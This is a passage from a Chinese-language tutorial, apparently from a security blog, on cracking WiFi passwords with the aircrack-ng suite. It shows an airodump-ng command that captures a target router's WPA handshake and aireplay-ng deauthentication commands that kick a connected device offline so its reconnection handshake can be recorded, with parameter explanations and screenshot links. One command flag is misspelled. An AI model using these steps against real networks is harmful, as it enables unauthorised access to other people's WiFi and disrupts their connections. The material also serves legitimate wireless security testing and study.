 输入以下命令

```plain
airodump-ng -w freedom -c 1 --bssid 48:2C:A0:F2:BF:D0 wlan0mon -ignore-nefative-oneaa
```

其中命令参数为

\-c：指定信道  
\-w：指定抓去握手包的存放位置或者名字，freedom 是一会抓去的握手包的名字  
–bssid：指定路由器的 MAC

需要更改两个参数，信道和地址，这两个参数分别是扫描 wifi 时确定要破解的 wifi 参数

[![image.png](assets/1698893928-8d128cf0deaaf7da25d5b52fcd707643.png)](https://storage.tttang.com/media/attachment/2023/04/23/7612b111-45a6-407a-8138-8d8fa8fef712.png)

执行之后会到以下界面

[![image.png](assets/1698893928-d5a3e444a9a1fd0a8bce96c650609dfc.png)](https://storage.tttang.com/media/attachment/2023/04/23/cda491a7-4546-4b82-829e-269f410aa6c8.png)

如果没连接的设备，就没办法接着往下的步骤了，所以这块还是比较看缘分的，从数据中看出有一台设备在连接，然后接着把这个用户踢下线，然后监听他重新连接的握手包，运行以下命令

```plain
aireplay-ng -0 2 -a 48:2C:A0:F2:BF:D0 -c 0A:FD:D4:19:1A:04 wlan0mon
aireplay-ng -0 2 -a（wifi 的 mac） -c（连接设备的 mac）wlan0mon
```
